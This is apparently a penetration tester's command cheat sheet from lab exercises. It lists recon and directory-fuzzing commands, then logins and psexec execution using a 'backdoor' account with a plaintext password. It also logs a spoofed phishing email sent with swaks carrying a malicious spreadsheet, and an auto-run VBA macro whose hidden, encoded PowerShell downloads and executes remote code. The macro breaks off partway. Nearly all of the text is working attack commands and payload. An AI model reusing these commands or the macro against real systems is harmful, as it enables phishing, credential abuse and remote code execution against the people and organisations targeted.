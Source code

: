 ## Netstat
`netstat -ano`
```

```
## Environment Vars
`Get-ChildItem Env:`
```

```
## Domain Controller Info
`nltest /dsgetdc:medtech`
```

```
# Services    
## API Endpoints
`gobuster dir -u http://192.168.133.143:80/api/ -w /usr/share/seclists/Discovery/Web-Content/common.txt`
```

```

`gobuster dir -u http://192.168.133.143:80/api/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -b 403`
```
```

`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://192.168.133.143/FUZZ`
```

```
`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -u http://192.168.133.143/FUZZ`
```
```

# Command History
```c
ssh 'SKYLARK\backdoor'@10.10.164.12

impacket-psexec SKYLARK/backdoor:P@ssw0rd!@10.10.164.12

smbclient -L //10.10.164.12 -U "SKYLARK\backdoor"

sudo swaks -t f.miller@skylark.com --from s.ahmed@skylark.com --attach @chck.xls --server 10.10.191.13 --body @body.txt --header "Subject: Expense" --suppress-data -ap

Sub Auto_Open()
    MyMacro
End Sub
Sub Workbook_Open()
    MyMacro
End Sub
Sub MyMacro()
    Dim Str As String
    Str = Str + "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAd"
    Str = Str + "wAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAA"
    Str = Str + "uAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhA"
    Str = Str + "GQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQA5ADI"
```